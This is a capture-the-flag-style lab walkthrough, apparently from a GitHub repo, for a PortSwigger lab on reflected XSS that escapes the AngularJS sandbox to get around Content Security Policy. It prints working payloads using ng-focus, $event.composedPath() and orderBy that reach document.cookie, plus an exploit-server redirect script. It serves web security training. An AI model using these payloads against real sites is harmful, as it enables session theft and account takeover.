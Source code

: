 # XSS LAB 26 - Reflected XSS with AngularJS sandbox escape and CSP

## Manual Solution


### 1. Before you start:
- Some useful articles:
    - [Content Security Policy and XSS](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)
    - [Event.composedPath() - MDN](https://developer.mozilla.org/en-US/docs/Web/API/Event/composedPath)
    - [AngularJS ng-focus Directive - GeeksforGeeks](https://www.geeksforgeeks.org/angularjs-ng-focus-directive/)
    - [Window API - MDN](https://developer.mozilla.org/en-US/docs/Web/API/Window)

### 2. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 3. Perform a search.
- Open the Network tab and perform an ordinary search.
- Notice the CSP header. The CSP restricts scripts.
![Search Request Screenshot](./images/CSP.PNG)

### 4. Exploit Overview
- We can't execute script on the website but the website uses AngularJS. We can execute scripts using `ng-focus`. `ng-focus` triggers a script when focused on an HTML element
- We will create an input element.
- `<input id=x ng-focus=`(If there were no CSP everything we write here would be triggered when the user interacts the input field.) The CSP blocks JavaScript code.

### 5. Bypassing CSP with AngularJS
- To bypass the CSP we can use `$event.composedPath()`. `$event.composedPath()` returns an array that contains the DOM elements in the event's propagation path, with the last element being the window object.
- We will use `|orderBy` to execute script for each tag. The payload becomes:
    - `<input id=x ng-focus=$event.composedPath()|orderBy:'alert(1)'>` 
    - But this payload doesn't work because the CSP block the `'alert(1)'` part of the payload.
- `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>`  
    - We will store the alert in z which manipulates the CSP.
- If you perform a search with `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>` an input field will appear on the website. If you interacts with it the alert pop-up appear.

### 6. Executing the Exploit
- Paste the search path in the URL `<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x`
- Copy the URL. Go to the exploit server and insert the body field with the following payload:
```js
<script>
    location='[YOUR_COPY]';
</script>
```
- Deliver to exploit.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_26.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```